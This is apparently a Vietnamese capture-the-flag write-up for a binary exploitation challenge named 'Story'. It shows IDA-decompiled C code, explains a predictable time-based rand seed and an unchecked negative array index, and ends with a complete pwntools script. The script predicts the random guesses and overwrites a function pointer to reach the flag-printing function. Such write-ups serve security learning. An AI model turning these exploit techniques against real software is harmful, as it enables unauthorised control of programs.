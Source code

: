 # Story

**ida:**

```c 

__int64 __fastcall calculate_desc(__int64 a1, unsigned __int64 a2)
{
  unsigned __int64 i; // [rsp+10h] [rbp-10h]
  unsigned int v4; // [rsp+1Ch] [rbp-4h]

  v4 = 0;
  for ( i = 0LL; i < a2; ++i )
    v4 += *(char *)(a1 + i);
  return v4;
}

int __fastcall easy_set_winner(__int64 a1, unsigned __int64 a2)
{
  char s[8]; // [rsp+10h] [rbp-50h] BYREF
  __int64 v4; // [rsp+18h] [rbp-48h]
  __int64 v5; // [rsp+20h] [rbp-40h]
  __int64 v6; // [rsp+28h] [rbp-38h]
  __int64 v7; // [rsp+30h] [rbp-30h]
  __int64 v8; // [rsp+38h] [rbp-28h]
  __int64 v9; // [rsp+40h] [rbp-20h]
  __int64 v10; // [rsp+48h] [rbp-18h]
  FILE *stream; // [rsp+58h] [rbp-8h]

  if ( (unsigned int)calculate_desc(a1, a2) != 1240 )
    return puts("Youe story was not good.");
  *(_QWORD *)s = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  stream = fopen("flag.txt", "r");
  fgets(s, 64, stream);
  puts("You're a good story teller. Here's the flag.");
  return puts(s);
}

int __fastcall hard_set_winner(__int64 a1, unsigned __int64 a2)
{
  char s[8]; // [rsp+10h] [rbp-50h] BYREF
  __int64 v4; // [rsp+18h] [rbp-48h]
  __int64 v5; // [rsp+20h] [rbp-40h]
  __int64 v6; // [rsp+28h] [rbp-38h]
  __int64 v7; // [rsp+30h] [rbp-30h]
  __int64 v8; // [rsp+38h] [rbp-28h]
  __int64 v9; // [rsp+40h] [rbp-20h]
  __int64 v10; // [rsp+48h] [rbp-18h]
  FILE *stream; // [rsp+58h] [rbp-8h]

  if ( (unsigned int)calculate_desc(a1, a2) != 12401240 )
    return puts("Youe story was not good.");
  *(_QWORD *)s = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  stream = fopen("flag.txt", "r");
  fgets(s, 64, stream);
  puts("You're a good story teller. Here's the flag.");
  return puts(s);
}

__int64 vuln()
{
  __int64 (__fastcall *v0)(); // rbx
  size_t v1; // rax
  int v3; // [rsp+8h] [rbp-58h] BYREF
  int v4; // [rsp+Ch] [rbp-54h] BYREF
  char s[72]; // [rsp+10h] [rbp-50h] BYREF

  printf("\nWrite a few words about the game ");
  __isoc99_scanf("%100s", s);
  puts("So now give me two of your lucky numbers and both must be less than 1000: ");
  __isoc99_scanf("%d %d", &v4, &v3);
  if ( v4 <= 999 )
    fun[v4] += v3;
  v0 = check;
  v1 = strlen(s);
  return ((__int64 (__fastcall *)(char *, size_t))v0)(s, v1);
}


__int64 random_check()
{
  char s[10]; // [rsp+Ah] [rbp-16h] BYREF
  int v2; // [rsp+14h] [rbp-Ch]
  int v3; // [rsp+18h] [rbp-8h]
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 3; ++i )
  {
    v3 = 0;
    printf("Enter your guess: ");
    fgets(s, 40, stdin);
    v2 = atol(s);
    if ( v2 != rand() % 1000 )
    {
      puts("You made a wrong guess.\nBetter luck next time.");
      return 0LL;
    }
    printf("[%d/4] Your guess was right.\n", (unsigned int)(i + 1));
  }
  return 1LL;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // rax
  __gid_t rgid; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  v3 = time(0LL);
  srand(v3 / 60);
  puts("Welcome to the game");
  puts("Guess four numbers in a row to pass to next level");
  if ( (unsigned int)random_check("Guess four numbers in a row to pass to next level") )
    vuln("Guess four numbers in a row to pass to next level");
  return 0;
}

```

**đọc ida thì ko thấy lỗi fmt hay bof gì hết**

giờ ta sẽ giải quyết hàm **random_check** trước

**à có lỗi ở chỗ này** 

```c 
v3 = time(0LL);
srand(v3 / 60);
```

oke giờ thì có thể **dễ dàng leak seed và vượt qua hàm random_check** rồi 
```
để hiểu thêm về dạng này thì bạn có thể tham khảo thêm ở đây 
```

https://hackmd.io/@whoisthatguy/rand

```python 

libc.srand(libc.time(0) // 60)
p.sendlineafter(b'guess: ', str(libc.rand() % 1000))

p.sendline(str(libc.rand() % 1000))
p.sendline(str(libc.rand() % 1000))
p.sendline(str(libc.rand() % 1000))

```

giờ ta sẽ đến **hàm vuln**

![image](https://github.com/gookoosss/CTF/assets/128712571/06cbcc86-aea0-4566-a15c-830272514b2a)


ở đây **check đang trỏ đến hard_set_winner** nè 

hàm c**alculate_desc** thì tính tổng của biến s 

hmm đến đây ta thấy **giống hết bài funtion overwrie** mình đã từng giải

các bước tiếp theo các bạn có thể đọc thêm ở đây để hiểu thêm **(đây là wu của funtion overwrie mình đã phân tích rất chi tiết)**

https://github.com/gookoosss/CTF/blob/main/PWN/pico/funtion%20overwrie.md

script:

```python 
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

exe = ELF("./story_patched")
# libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so")
libc = CDLL("./libc6_2.35-0ubuntu3.1_amd64.so")
context.binary = exe
p = process([exe.path])

gdb.attach(p, gdbscript = '''
b*main+159
b*random_check+70          
c
'''          
)
           
input()


libc.srand(libc.time(0) // 60)
p.sendlineafter(b'guess: ', str(libc.rand() % 1000))

p.sendline(str(libc.rand() % 1000))
p.sendline(str(libc.rand() % 1000))
p.sendline(str(libc.rand() % 1000))

# offset_hard_easy = str(0xd3) = 211
# offset_fun_check = str(0x30) = 48

payload = b'ddddddddddxx' # 1240
p.sendlineafter(b'game ', payload)

payload = b'-12 -211'
p.sendlineafter(b'1000: ', payload)

p.interactive()



```

